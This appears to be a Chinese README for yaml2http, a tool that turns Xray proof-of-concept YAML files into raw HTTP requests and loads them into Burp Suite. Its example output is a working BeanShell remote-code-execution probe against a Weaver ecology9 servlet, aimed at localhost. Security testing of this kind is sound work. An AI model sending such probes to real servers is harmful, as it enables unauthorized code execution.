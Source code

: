 # yaml2http

一个将`Xray`的`Poc`转换成`http`请求明文的小工具，便于在`Burp Suite`一类的工具中使用。
与杜老师交流`Poc`存储问题而引出的产物，采用了一个简易版的基于`Xray`的`Poc`标准，它只支持描述`http`协议。目前功能尚不完善，还在开发中...

## Usage

当`Poc`的请求结构中包含不可打印字符时，推荐以插件形式载入`Poc`至`Burp Suite`中使用。

### CLI

运行

```bash
java -jar yaml2http-1.0.jar -p poc-yaml-ecology9-beanshell-rce.yaml
```

输出如下

```http
POST /weaver/bsh.servlet.BshServlet HTTP/1.1
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.81 Safari/537.36 Edg/104.0.1293.47
Connection: close
Host: localhost
Content-Length: 87

bsh.script=print%2842503*40455%29&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw
```

### Burp Suite Extension

支持在`Burp Suite`中以插件形式进行使用，这种方式可以避免不可打印字符的问题。

使用方式，从`Extender`导入下载或编译的`jar`包

![](images/20220823113410.png)

进入`Repeater`页面，鼠标右键打开菜单并选择`Extension -> Yaml Poc Loader -> Import`，并选择需要载入的文件

![](images/20220823113616.png)

加载完成后如下，默认指定`localhost:80`作为目标。

![](images/20220823113627.png)

## Todo

* [X] 完成`yaml`解析，读取已支持字段值
* [X] 完成变量定义外的`http`文本转换
* [X] 完成变量定义和表达式解析（已初步完成主体框架，后续补充方法功能即可）
* [ ] 完成`Content-Type`自识别（但`body`数据过段会引起判断失误，推荐`poc`中自行指定）
* [x] 完成变量定义字段其他方法的支持

